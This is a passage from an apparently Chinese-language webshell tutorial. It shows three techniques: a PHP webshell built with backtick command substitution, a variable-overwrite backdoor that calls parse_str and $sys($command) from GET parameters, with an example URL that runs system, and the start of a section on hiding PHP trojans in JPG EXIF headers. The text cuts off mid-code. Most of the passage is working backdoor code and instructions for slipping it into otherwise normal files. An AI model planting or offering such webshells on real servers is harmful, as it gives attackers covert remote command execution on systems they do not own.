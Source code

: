 ### 0x24: 利用PHP的指令替换编写webshell&#x20;

```php
<?php   
    $cmd = `dir`;  
    echo $cmd;   
?>  
```

### 0x25: 利用一些CMS等开源框架进行本地变量覆盖&#x20;

```php
<?php
    foreach ($_GET as $key => $value)
    {
        $result .= "$key=$value&";
    }
    /*
        很多开源框架都有类似上面这段功能的代码，用于将用户输入的参数进行批量的本地化
        但是这也往往导致了"本地变量覆盖漏洞"
        同时也可以被黑客用来在原本正常的文件中插入
            parse_str($result);
            $sys($command);
        这段代码来进行getshell
    */
    ..
    parse_str($result);
    $sys($command);
?>
# http://localhost/shell/index.php?sys=system&command=dir
```

### 0x26：基于图片文件非可显示字段(例如图片头meta)部署PHP图片木马

和传统的把php代码type进图片不一样，这里介绍另一种图片木马的利用方式。

图片木马相关知识：

> http://en.wikipedia.org/wiki/Exchangeable\_image\_file\_format\
> http://blog.sucuri.net/2013/07/malware-hidden-inside-jpg-exif-headers.html

Malware Hidden Inside JPG EXIF Headers &#x20;

[exif\_read\_data](http://cn2.php.net/manual/zh/function.exif-read-data.php)

exif\_read\_data() 函数从 JPEG 或 TIFF 图像文件中读取 EXIF 头信息。这样就可以读取数码相机产生的元数据

```php
<?php
    echo "img.jpg:
\n";
    $exif = exif_read_data('img.jpg', 'IFD0');
    //IFD0     所有 IFD0 的标记数据。在标准的图像文件中这包含了图像大小及其它。
    echo $exif===false ? "No header data found.
" : "Image contains headers
";
    echo "
";

    //FILE    FileName, FileSize, FileDateTime, SectionsFound
    $exif = exif_read_data('img.jpg', 'FILE', true);
    echo "img.jpg:
\n";
    foreach ($exif as $key => $section)
    {
        foreach ($section as $name => $val)
        {
```